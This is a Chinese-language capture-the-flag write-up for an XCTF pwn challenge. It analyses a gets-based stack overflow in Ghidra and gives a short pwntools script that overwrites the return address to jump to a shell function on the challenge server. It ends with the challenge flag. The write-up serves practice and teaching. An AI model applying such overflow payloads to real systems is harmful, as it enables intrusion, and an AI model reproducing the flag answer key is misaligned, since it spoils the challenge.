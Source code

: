 # 反应釜开关控制

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d6400d88-b84b-4939-a118-9772fad79aab_2&task_category_id=2)

这题3分。而且做出来的人不足1000，不应该很难吗？结果就这？

程序扔ghidra，main函数很普通。

![main](../../images/_theMain.png)

- ### sprintf
  > 发送格式化输出到 str 所指向的字符串。
  - 声明：int sprintf(char *str, const char *format, ...)
  - 参数
    > str -- 这是指向一个字符数组的指针，该数组存储了 C 字符串.<br>
    > format -- 这是字符串，包含了要被写入到字符串 str 的文本。它可以包含嵌入的 format 标签，format 标签可被随后的附加参数中指定的值替换，并按需求进行格式化。format 标签属性是 %\[flags][width][.precision][length]specifier

比如上图的用法是把easy函数的地址存储到local_248里。

- ### write
  > 把buf中nbyte写入文件描述符handle所指的文档，成功时返回写的字节数，错误时返回-1.
  - 声明：int write(int handle,void *buf,int len);
  - 参数
    > int handle  为要获取文件指针的文件句柄<br>
    > void *buf   为要写入的内容<br>
    > int len     为要写入文件的长度

第一个参数为1表示向命令行输出（stdout？）。因此第11行的作用是将输出local_248 9个字符长度的内容到命令行。9个字符大概是因为后面还有个\0。、

那很明显栈溢出了，gets出现看都不用看。这道题不知道怎么设计的，出题人想让你跳到easy里，easy里还有个normal，normal里就是shell了。但是吧，shell地址在程序里可以找到，那我为啥不直接跳到shell呢？

```python
from pwn import *
shell=0x004005f6
proc=remote("61.147.171.105",55231)
payload=b'a'*0x208+p64(shell)
proc.sendlineafter(">",payload)
proc.interactive()
```

这题唯一有问题的是我不知道怎么找偏移。注意左侧stack-0x208已经把local_208 512的长度算进去了，所以不用再加512。另外是0x啊，不要打成208了，我最开始怎么试都不对怀疑人生了。有的时候还要仔后面加b'a'*8填rbp，但这里不知道为什么不用。反正都试试，不差这几秒。

- ### Flag
  > cyberpeace{74866e5f9a9f3e58a4c260d1e59cc010}